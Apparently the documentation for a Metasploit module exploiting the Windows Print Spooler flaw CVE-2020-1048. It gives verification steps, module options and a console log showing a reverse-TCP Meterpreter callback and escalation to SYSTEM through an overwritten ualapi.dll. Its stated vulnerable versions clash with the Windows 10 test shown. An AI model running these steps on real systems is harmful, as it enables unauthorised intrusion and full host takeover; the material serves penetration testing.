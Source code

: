 ## Vulnerable Application

Vulnerable versions for exploit
All unpatched windows through version 2003

### Introduction

This exploit relies on a bug where you can create a virtual printer
and print to trusted locations on the filesystem.  If a user chooses the
default overwrite, it may create a permanent backdoor.

Basically, this exploit creates a print job that writes to a trusted
location.  By selecting the location ```C:\windows\system32\ualapi.dll```
we abuse the spooler service twice.  The spooler will print to this
location when it restarts, then it will load the DLL into itself when it
restarts a second time.  The DLL will then be running as ```SYSTEM```.

When the printer is created, the target will show a pop-up saying a
printer was created.
A larger issue here is that the Spooler service does not like to stop.
Trying `sc stop` Spooler does not stop the spooler.
Killing the pid with a trusted process will kill it, but it restarts
automatically.
Using the `pendingFileRenameOperations` registry key also does not appear
to work.

## Verification Steps

 Start ```msfconsole```
 get session on a windows target that is not patched (and <= 2003)
 ```use windows/local/cve_2020_1048_printerdemon```
 ```set session <session>```
 ```set payload <payload>```
 ```set lhost <lhost>```
 ```set lport <lport>```
 ```run```
 Verify target reboots automagically if 
 reboot target again (yest it has to reboot again
 Verify you get a session

## Options

### EXECUTE_DELAY
  The time between uploading and running the exploit.  Default is 3
  seconds, but high-latency networks may require more time.

### EXPLOIT_NAME
  The name of the when it is uploaded to the target (%RAND% by default).
  
### EXPLOIT_DIR
  Directory to use for file upload and linking; this should not already
  exist. (%RAND% by default)

### OVERWRITE_DLL
  The remote location you would like to write to.  Default is
  ```C:\windows\system32\ualapi.dll```

### PAYLOAD_NAME
  The filename to use for the payload binary (%RAND% by default).
  This is the name of the dll payload when uploaded to the remote host.

### RESTART_TARGET
  This will restart the target to force the overwrite.  YOU WILL LOSE
  YOUR SESSION unless you have a method of persistence.
  The dll will not be run until a second reboot.

### WRITEABLE_DIR
  The directory to use the payload binary and uploaded payload.
  (%RAND% by default).

## Scenarios

### Tested on Windows10 x64 Release 1903

  ```
msf payload(windows/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 2

[*] Started reverse TCP handler on 192.168.135.197:5555 
msf payload(windows/x64/meterpreter/reverse_tcp) > [*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 2 opened (192.168.135.197:5555 -> 192.168.132.134:49675) at 2020-08-24 12:15:07 -0500

msf payload(windows/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-CL5L2IH\msfuser
meterpreter > getsystem
[-] 2001: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 2...
msf payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/local/cve_2020_1048_printerdemon 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2020_1048_printerdemon) > show options

Module options (exploit/windows/local/cve_2020_1048_printerdemon):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   EXECUTE_DELAY   3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                     no        The filename to use for the exploit binary (%RAND% by default).
   OVERWRITE_DLL                    no        Filename to overwrite (%WINDIR%\system32\ualapi.dll by default).
   PAYLOAD_NAME                     no        The filename for the payload to be used on the target host (%RAND%.dll by default).
   RESTART_TARGET  true             yes       Restart the target after exploit (you will lose your session until a second reboot).
   SESSION         1                yes       The session to run this module on.
   WRITABLE_DIR                     no        Path to write binaries (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf exploit(windows/local/cve_2020_1048_printerdemon) > set verbose true
verbose => true
msf exploit(windows/local/cve_2020_1048_printerdemon) > set disablepayloadhandler false
disablepayloadhandler => false
msf exploit(windows/local/cve_2020_1048_printerdemon) > set wfsdelay 600
wfsdelay => 600
msf exploit(windows/local/cve_2020_1048_printerdemon) > run

msf exploit(windows/local/cve_2020_1048_printerdemon) > set session 2
session => 2
msf exploit(windows/local/cve_2020_1048_printerdemon) > run

[*] Started reverse TCP handler on 192.168.135.197:4444 
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-CL5L2IH via session ID: 2
[*] Build Number = 18362
[*] Uploading Payload
[*] Payload (5120 bytes) uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\UCPNtlof
[!] This exploit requires manual cleanup of the payload C:\Users\msfuser\AppData\Local\Temp\UCPNtlof
[*] Sleeping for 3 seconds before launching exploit
[*] Uploading exploit to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\JkrbEDShseh.exe
[*] Exploit uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\JkrbEDShseh.exe
[*] Running Exploit
[*] Exploit output:
Printer created successfully
[*] Rebooting DESKTOP-CL5L2IH
[*] 192.168.132.134 - Meterpreter session 2 closed.  Reason: Died
```

After the auto-reboot, reboot again.
The first reboot performs the overwrite; the second loads the dll.

```
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 3 opened (192.168.135.197:4444 -> 192.168.132.134:49669) at 2020-08-24 12:19:49 -0500

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```
